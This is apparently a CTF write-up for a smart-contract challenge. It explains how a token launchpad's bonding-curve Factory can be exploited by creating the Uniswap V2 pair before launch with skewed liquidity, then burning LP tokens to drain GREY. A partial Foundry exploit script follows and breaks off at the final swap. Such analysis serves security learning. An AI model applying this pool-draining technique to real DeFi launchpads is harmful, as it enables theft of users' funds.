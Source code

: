 The Factory contract is the core of the launchpad system, responsible for managing the lifecycle of new tokens, handling bonding curve sales, and launching tokens onto Uniswap. The contract uses a bonding curve to allow users to buy and sell new tokens (like `MEME`) using the `GREY` token before the token is launched. The price is determined dynamically based on the reserves and a virtual liquidity parameter, which helps bootstrap initial liquidity and price discovery. 

For token creation, users can create new tokens through the factory using `createToken()`. Each new token starts with a fixed initial supply (fixed in `Token.sol`) and is tracked in the pairs mapping, which stores the virtual liquidity and reserves for GREY and the token. For buying and selling tokens, users can buy tokens by sending GREY to the factory, or sell tokens back to the factory for GREY by calling `buyTokens()` and `sellTokens()`, as long as the bonding curve phase is active. The contract ensures that the correct amount of tokens or GREY is transferred based on the bonding curve formula defined in `_getAmountOut()` which will be called in `_buyTokens()` and `sellTokens()`. For launching tokens, once a target amount of GREY, 6 ether (value defined in `targetGREYRaised` in constructor) has been raised, anyone can call launchToken to end the bonding curve phase by using `launchToken()`. It will then transfer the accumulated GREY and token reserves to a Uniswap V2 pair and burn a portion of the token supply to maintain price consistency, and also mint LP tokens to a burn address, `address(0xdEaD)`, effectively locking initial liquidity.

However, we can observe that during the construction of UniswapV2Factory in the `Setup.sol`, it is using the default UniswapV2Factory contract which will cause a terrible consequence while utilizing it in a launchpad as attackers are able to create the pair for `MEME` before the token are launched, and then providing liquidity with a skewed ratio of `GREY` and `MEME` tokens to get LP tokens that is equivalent to the value of liquidity provided. By doing this, after the token is being launched and reserves `GREY` and `MEME` are added into the pool, the attackers can burn their LP tokens to withdraw a large share of the pool’s reserves (including the newly added `GREY`).

---


## Exploitation

The exploit works by creating the Uniswap pair and providing liquidity with a highly skewed ratio (almost all MEME, almost no GREY) before the official launch. This gives us nearly all the LP tokens even after the token has been launched. When the factory launches the token and adds the real reserves, we can burn our LP tokens to withdraw almost all of the pool’s `GREY`. Finally, we swap remaining `MEME` for even more `GREY`, draining the pool and solving the challenge.

```solidity
function run() external {
    vm.startBroadcast();

    // Claim the GREY tokens
    setup.claim();

    // Buy 5e18 - 1 GREY worth of MEME
    grey.approve(address(factory), type(uint256).max);
    meme.approve(address(factory), type(uint256).max);
    factory.buyTokens(address(meme), 5 ether - 1, 0);

    // Create a Uniswap pair for GREY and MEME
    address pair = uniswapV2Factory.createPair(address(grey), address(meme));

    // Provide liquidity to the pair
    grey.transfer(pair, 1);
    meme.transfer(pair, meme.balanceOf(me));
    uint256 lpToken = IUniswapV2Pair(pair).mint(me);

    // Launch the token
    factory.launchToken(address(meme));

    // Burn the LP tokens to remove liquidity
    UniswapV2Pair(pair).transfer(pair, lpToken);
    IUniswapV2Pair(pair).burn(me);

    // Swap the remaining MEME for GREY
```